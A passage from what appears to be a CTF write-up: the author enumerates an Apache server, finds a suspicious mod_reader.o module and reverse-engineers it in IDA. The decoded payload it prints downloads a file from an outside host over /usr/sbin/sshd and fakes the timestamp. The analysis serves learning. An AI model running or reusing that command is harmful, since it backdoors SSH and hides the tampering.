 ```
will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin
```
{% endcode %}

Apache service is weird and there's a database basically. We can head to `/etc/apache2` to enumerate more. I was looking through the files and found a particualrly large file in `mods-available` that had the latest edit date:

```
steven@production:/etc/apache2/mods-available$ ls -lat
total 636
drwxr-xr-x 2 root root 12288 Feb  8  2022 .
drwxr-xr-x 8 root root  4096 Feb  8  2022 ..
-rw-r--r-- 1 root root 37616 Jul  5  2021 mod_reader.o
-rw-r--r-- 1 root root   565 Jul  5  2021 mpm_prefork.conf
<TRUNCATED>
```

The rest of the files were about 500 bytes, meanwhile this thing was massive. We can bring this back to our machine for analysis via `nc`.&#x20;

Then, using `ida64`, we see that there are base64 related functions for this:

<figure><img src="../../../.gitbook/assets/image (448).png" alt=""><figcaption></figcaption></figure>

We can locate the string and see that it is being passed into another `bash -c` command:

<figure><img src="../../../.gitbook/assets/image (1729).png" alt=""><figcaption></figcaption></figure>

When decoded, it shows this:

{% code overflow="wrap" %}
```bash
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
```
{% endcode %}
